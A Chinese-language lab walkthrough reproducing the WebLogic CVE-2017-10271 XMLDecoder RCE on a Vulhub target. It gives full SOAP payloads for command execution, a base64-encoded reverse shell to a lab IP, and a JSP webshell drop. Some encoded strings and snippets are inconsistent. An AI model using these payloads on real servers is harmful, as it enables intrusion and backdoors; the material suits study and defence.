# Weblogic-CVE-2017-10271
>影响版本:weblogic 版本10.3.6.0.0;12.2.1.1.0;12.2.1.2.0;12.1.3.0.0
## 环境搭建
使用Vulhub搭建靶场环境，由于虚拟机网络不稳定问题，我采用物理机拉取镜像到本地，然后用虚拟机从物理机中拉取镜像tar包就可以完美绕开网络不稳定问题

`docker-compose up -d`运行容器

浏览器可以成功访问证明环境已经搭建完成

## 版本探测
漏洞利用前，知道版本信息至关重要
探测方法：
1. 通过Web页面，网页源代码或页面底部，有时会显示版本信息
   
    
   暴露了版本号10.3.6.0
2. 通过T3协议：使用nmap的脚本进行探测，这是最直接的方式
   `namp -n -v -p 7001 192.168.137.128 --script=weblogic-t3-info.nse` 
   
   同样可以暴露出版本号10.3.6.0 
## 漏洞复现
### 漏洞本质
WebLogic接收了攻击者发送的恶意XML，然后用自己的"解码器"去解析，攻击者通过在XML里"描述"一个恶意对象来达到攻击目的
wls-wsat是weblogic webservice的一个接口，恰好会用到XMLDecoder处理数据
### 漏洞原理
正常的XMLDecoder使用场景
```java
WebLogic没有验证XML内容，直接反序列化用户提交的数据
```java
// WebLogic内部代码（简化）
protected void handleRequest(HttpRequest request) {
    String xmlBody = request.getParameter("xml");
    XMLDecoder decoder = new XMLDecoder(new ByteArrayInputStream(xmlBody.getBytes()));
    decoder.readObject();  // ⚠️ 直接反序列化用户输入的XML！
    decoder.close();
}
```
### XMLDecoder反序列化原理
1. 什么是XMLDecoder：是一个java内置的功能，专门用来把XML格式的数据变成java对象
2. XMLDecoder的工作方式：XML标签=java代码的可视化表达
   ```xml
    <!-- 这段XML -->
    <void class="java.util.Date" method="toString"/>
   ``` 
   ```java
    new java.util.Date().toString()     
   ```
3. 核心标签：
   <void>	调用方法或创建对象	new 或 method() 
   <object>	创建对象	new ClassName()
   <class>	引用类	ClassName.class
   <string>	字符串参数	"text"
   <int>	整型参数	123
   <array>	创建数组	new String[3]
   <void index="0">	设置数组元素	arr[0] = value
4. XML如何变成Java对象
   1. 简单示例
        ```xml
        <void class="java.lang.System" method="exit">
            <int>0</int>
        </void>
        ``` 
        XMLDecoder解析过程：
        看到<void class="..."> → 准备操作一个类
        class="java.lang.System" → 目标类是System
        method="exit" → 要调用exit()方法
        <int>0</int> → 传递给exit()的参数是0
        实际执行：System.exit(0)
   2. 创建对象并调用方法示例
      ```xml 
        <void class="java.lang.ProcessBuilder">
            <array class="java.lang.String" length="2">
                <void index="0">
                    <string>ls</string>
                </void>
                <void index="1">
                    <string>-la</string>
                </void>
            </array>
            <void method="start"/>
        </void>
      ``` 
      ```java
        // 1. <void class="java.lang.ProcessBuilder"> 
        //    准备创建ProcessBuilder对象
        ProcessBuilder pb;

        // 2. <array class="java.lang.String" length="2">
        //    创建一个字符串数组，长度2
        String[] cmd = new String[2];

        // 3. <void index="0"><string>ls</string></void>
        //    cmd[0] = "ls"
        cmd[0] = "ls";

        // 4. <void index="1"><string>-la</string></void>
        //    cmd[1] = "-la"
        cmd[1] = "-la";

        // 5. 回到<void class="...">，把数组作为构造函数参数
        //    pb = new ProcessBuilder(cmd)
        pb = new ProcessBuilder(cmd);

        // 6. <void method="start"/>
        //    pb.start()
        pb.start();  // 执行命令！
      ```
5. 深入分析
   1. 为什么XMLDecoder能链式调用
      嵌套解析：XMLDecoder支持标签嵌套，这允许构造复杂的调用链
      ```xml
        <void class="java.lang.Runtime" method="getRuntime">
            <void method="exec">
                <string>calc.exe</string>
            </void>
        </void>
      ```  
   2. 为什么WebLogic使用XMLDecoder
      WebLogic需要在SOAP消息中传递复杂对象，XMLDecoder正好可以：
      把Java对象编码成XML（序列化）
      从XML恢复Java对象（反序列化） 
6. 与Java原生反序列化的对比
   1. 相同点
    都能从不可信输入创建任意对象
    都能导致RCE
    都是由于输入验证不足
   2. 不同点
    方面	    XMLDecoder	                Java原生
    利用方式	手写XML	                     使用ysoserial生成payload
    Gadget来源	无需gadget链，直接调用方法	  需要找到可用的gadget链
    执行原理	直接创建对象并调用方法	       通过反射链式调用
    学习难度	较低（XML直观）               较高（需要理解反射链）
### 手工构造
1. 攻击链
   ```
    攻击者发送XML
        ↓
    WebLogic调用XMLDecoder解析
        ↓
    XMLDecoder创建ProcessBuilder对象（参数是攻击者的命令）
        ↓
    调用start()方法执行系统命令
        ↓
    攻击成功！
   ``` 
2. 理解嵌套解析
   XMLDecoder从最内层开始解析，逐层向外 
   ```xml
    <void class="ProcessBuilder">          ← 第3步：用数组创建ProcessBuilder
        <array class="String" length="2">  ← 第2步：先创建数组
            <void index="0">               ← 第1步：最先设置数组元素
                <string>touch</string>
            </void>
            <void index="1">
                <string>/tmp/test</string>
            </void>
        </array>
        <void method="start"/>             ← 第4步：最后调用start()
    </void>
   ``` 
   执行顺序：
    设置 cmd[0] = "touch"
    设置 cmd[1] = "/tmp/test"
    创建 new ProcessBuilder(cmd)
    调用 start()
3. 完整的payload需要加上SOAP包装（WebLogic需要的格式）
    ```xml
    <!-- 第1层：SOAP信封（标准协议） -->
    <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
        <!-- 第2层：SOAP头（存放元数据） -->
        <soapenv:Header>
            <!-- 第3层：WorkContext（WebLogic自定义扩展） -->
            <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
                <!-- 第4层：java标签（告诉WebLogic这里是Java数据） -->
                <java>
                    <!-- 第5层：XMLDecoder内容（真正的攻击代码） -->
                    <!--....-->
                </java>
            </work:WorkContext>
        </soapenv:Header>
        <!-- 第6层：SOAP体（可以为空） -->
        <soapenv:Body/>
    </soapenv:Envelope>
    ```
4. 完整的解析链路
    ```
    HTTP POST请求
        ↓
    WebLogic接收SOAP消息
        ↓
    解析SOAP Envelope
        ↓
    找到 <work:WorkContext>
        ↓
    看到 <java> 标签 ← 关键！
        ↓
    取出 <java> 内部的内容
        ↓
    交给 XMLDecoder 解析
        ↓
    执行恶意代码
    ```
5. 关键点：
   1. 使用ProcessBuilder时参数必须是单独的数组元素而不能作为一个元素然后用空格隔开
      ```xml
        <!-- ❌ 这样不行 -->
        <string>ls -la /tmp</string>

        <!-- 原因：ProcessBuilder把这整个字符串当成一个参数 -->
        <!-- 实际执行：["ls -la /tmp"] → 系统找不到这个命令 -->
      ```
#### 命令执行（创建文件）
```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java>
                <void class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>touch /tmp/simple</string>
                        </void>
                    </array>
                    <void method="start"/>
                </void>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```
#### 反弹shell
目标命令：bash -i >& /dev/tcp/192.168.162.129/6666 0>&1
难点：反弹shell的payload中含有>、&、|等特殊字符,不能直接放ProcessBuilder
解决方案：通过bash -c执行编码后的命令
具体实现（解码命令）：`bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2Mi4xMjkvNjY2NiAwPiYx}|{base64,-d}|{bash,-i}`
【使用花括号可以避免引号嵌套地狱】
```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java>
                <void class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE2Mi4xMjkvNjY2NiAwPiYx}|{base64,-d}|{bash,-i}</string>
                        </void>                
                    </array>
                    <void method="start"/>
                </void>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```
#### Webshell..
1. 通过RCE写入Webshell完整流程
   ```
   确认目标存在RCE
   |
   找到可写的web目录
   |
   写入webshell文件
   |
   浏览器访问执行
   ``` 
2. 具体实现方法
   1. 确认目标存在RCE：通过执行简单命令，如touch /tmp/test然后ls -la /tmp验证
   2. 找到web目录
      1. 查找已知路径（最快）
         ```
         # 常见Web目录位置
         /usr/local/webserver/htdocs/
         /var/www/html/
         /usr/local/tomcat/webapps/ROOT/
         /usr/local/weblogic/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/*/war/
         ```
      2. 查找现有JSP文件
         ```bash
         # 找到Web应用根目录
         find / -name "*.jsp" -type f 2>/dev/null | head -5

         # 或查找特定文件
         find / -name "index.jsp" -type f 2>/dev/null
         find / -name "login.jsp" -type f 2>/dev/null         
         ``` 
      3. 查找应用服务器特定目录
         ```bash
         # WebLogic
         find / -path "*/_WL_internal/*/war" -type d 2>/dev/null

         # Tomcat
         find / -path "*/webapps/ROOT" -type d 2>/dev/null

         # JBoss
         find / -path "*/deployments/*.war" -type d 2>/dev/null
         ``` 
   3. 测试目录可写性 
   4. 确认Web访问路径
      ```
      # 浏览器访问（根据服务器IP和端口）
      http://目标IP:端口/应用上下文/test.txt
      # 如果能显示"test"，说明路径正确
      ``` 
   5. 写入Webshell  
3. 通过查找特定路径找到了可以写文件的web目录
4. 在浏览器中也可以正常访问刚刚写入的文件
5. 写入webshell
    目标命令：echo '<% Runtime.getRuntime().exec(request.getParameter("c")); %>' > /root/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat/54p17w/war/shell.jsp
    base64编码：`bash -c {echo,ZWNobyAnPCUgUnVudGltZS5nZXRSdW50aW1lKCkuZXhlYyhyZXF1ZXN0LmdldFBhcmFtZXRlcigiYyIpKTsgJT4nID4gL3Jvb3QvT3JhY2xlL01pZGRsZXdhcmUvdXNlcl9wcm9qZWN0cy9kb21haW5zL2Jhc2VfZG9tYWluL3NlcnZlcnMvQWRtaW5TZXJ2ZXIvdG1wL19XTF9pbnRlcm5hbC93bHMtd3NhdC81NHAxN3cvd2FyL3NoZWxsLmpzcA==}|{base64,-d}|{bash,-i}`
    ```xml
    <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
        <soapenv:Header>
            <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
                <java>
                    <void class="java.lang.ProcessBuilder">
                        <array class="java.lang.String" length="3">
                            <void index="0">
                                <string>bash</string>
                            </void>
                            <void index="1">
                                <string>-c</string>
                            </void>
                            <void index="2">
                                <string>{echo,ZWNobyAnPCUgUnVudGltZS5leGVjKHJlcXVlc3QuZ2V0UGFyYW1ldGVyKCJjIikpOyU+JyA+IC9yb290L09yYWNsZS9NaWRkbGV3YXJlL3VzZXJfcHJvamVjdHMvZG9tYWlucy9iYXNlX2RvbWFpbi9zZXJ2ZXJzL0FkbWluU2VydmVyL3RtcC9fV0xfaW50ZXJuYWwvd2xzLXdzYXQvNTRwMTd3L3dhci9zaGVsbC5qc3A=}|{base64,-d}|{bash,-i}</string>
                            </void>                
                        </array>
                        <void method="start"/>
                    </void>
                </java>
            </work:WorkContext>
        </soapenv:Header>
        <soapenv:Body/>
    </soapenv:Envelope>
    ```
### 发送Payload
1. 访问/wls-wsat/CoordinatorPortType（漏洞接口）
   
2. burp抓包并填入payload
   
   要注意服务端对大小写敏感而且payload的缩进问题也可能导致XML解析错误
3. 进入靶机容器查看命令是否执行成功
   
   成功实现简单RCE
4. 在kali中开启监听6666端口然后按照上述方法发送反弹shell的payload
   
   成功获得反弹shell 
    
5. 按照上述方法发送payload,然后到靶机容器查看，成功写入webshell文件
   
   然后在浏览器访问该文件发现报错
   
   是因为NullPointerException说明request.getParameter("c")返回了null，调用了exec(null)。应该带参数访问`?c=touch%20/tmp/test_from_webshell`
   
   进入靶机容器查看发现webshell可以正常执行命令
   
### 关键的Gadget分析
1. ProcessBuilder vs Runtime
   1. ProcessBuilder（更稳定）
      ```xml
        <void class="java.lang.ProcessBuilder">
            <array class="java.lang.String" length="1">
                <void index="0"><string>whoami</string></void>
            </array>
            <void method="start"/>
        </void>
      ```
   2. Runtime（需要getRuntime） 
      ```xml
        <void class="java.lang.Runtime" method="getRuntime">
            <void method="exec">
                <string>whoami</string>
            </void>
        </void>
      ``` 
2. 为什么命令不能直接写？
   原因：ProcessBuilder接收的是命令+参数列表，不经过shell解析，所以空格不会被拆分为参数。
   ```xml
    <!-- ❌ 错误：ProcessBuilder不支持空格分隔的字符串 -->
    <string>touch /tmp/test</string>

    <!-- ✅ 正确：必须用数组分隔参数 -->
    <array class="java.lang.String" length="2">
        <void index="0"><string>touch</string></void>
        <void index="1"><string>/tmp/test</string></void>
    </array>
   ``` 
## 漏洞修复与绕过
1. 官方修复（CVE-2017-10271）
WebLogic 10.3.6.0补丁：黑名单方式
```java
// 检查XML中是否包含危险标签
if (xml.contains("<object") || xml.contains("<void") || xml.contains("<array")) {
    reject();
}
```
1. 绕过（CVE-2019-2725）
利用不检查的标签：
```xml
<!-- 使用<soapenv:XX>替换被拦截的标签 -->
<soapenv:any>
    <soapenv:method class="..." method="..."/>
</soapenv:any>
```